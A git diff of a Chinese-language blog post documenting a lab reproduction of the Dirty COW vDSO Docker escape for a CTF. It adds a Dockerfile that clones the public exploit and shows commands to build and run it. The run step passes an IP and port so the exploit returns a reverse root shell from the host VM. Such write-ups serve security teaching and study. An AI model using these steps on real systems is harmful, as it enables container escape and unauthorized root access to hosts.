

update docker escape

diff --git a/_posts/2017-11-17-DirtyCoWDockerEscape.md b/_posts/2017-11-17-DirtyCoWDockerEscape.md
@@ -9,6 +9,8 @@ category: Sec
 
 最近出比赛题用到Docker，于是就想到了脏牛火的那段时间有一个利用它做Docker逃逸的PoC。再一看，发现和`vdso`有关，恰好最近研究溢出也遇到了这个东西（在我的[另一篇博文](http://aptx4869.me/ctf/2017/09/08/Overflow.html)中）。
 
+原作者演示的是`容器中的root用户`提权到`VM中的root用户`；我们这里则在镜像中加入一个普通用户`ubuntu`，演示从`容器中的普通用户`提权到`VM中的root用户`。
+
 ### 0x01 环境搭建
 
 **VM**
@@ -106,31 +108,49 @@ docker-compose -v
 
 由于我们使用了国内的Docker仓库，所以也许需要在`Dockerfile`下稍微改动一下。这里同样涉及到更新源的问题。同样地，我在`Dockerfile`把源先给更换成了上海交通大学的源。
 
+所以最终我们实验的`Dockerfile`如下：
+
 ```dockerfile
 FROM registry.docker-cn.com/library/ubuntu:14.04
 
 RUN mv /etc/apt/sources.list /etc/apt/sources.list.bak
+
 ADD ./sources.list /etc/apt/
+RUN apt-get update
+RUN apt-get install -y build-essential
+RUN apt-get install -y nasm
+RUN apt-get install -y git
+
+RUN useradd --create-home ubuntu
+WORKDIR /home/ubuntu/
+RUN git clone https://github.com/scumjr/dirtycow-vdso.git
+RUN chown -R ubuntu:ubuntu /home/ubuntu/dirtycow-vdso
+
+EXPOSE 1234
+
+CMD /bin/bash
 ```
+
+执行下面的命令来创建并运行容器：
 
 ```bash
 docker-compose run dirtycow /bin/bash
 ```
+
+**注意：除了之前的环境搭建外，到目前为止，以上操作均在普通用户权限下进行（我这里的普通用户叫做`br`），也没有任何的`sudo`！**
 
 建议到这里也可以对VM做一个快照。这个Docker逃逸只能做一次，成功后退出`root shell`再次执行攻击时会失败，具体原因我还没有深入了解。
 
 进入以后执行：
 
 ```bash
-cd /
-./runnit.sh
-cd dirtycow-vdso
+su ubuntu
+cd /home/ubuntu/dirtycow-vdso
+make
 ./0xdeadbeef 172.18.0.2:10000
 ```
 
 由于最后获得的事实上是一个反弹shell，所以要给出反弹的IP和端口。端口可以随意设置，IP可以用`ifconfig`查看。我对Docker的网络机制不了解，以后记得去研究一下。
-
-**注意，到目前为止，以上操作均在普通用户权限下进行（我这里的普通用户叫做`br`），也没有任何的`sudo`！**
 
 看一下截图：
 
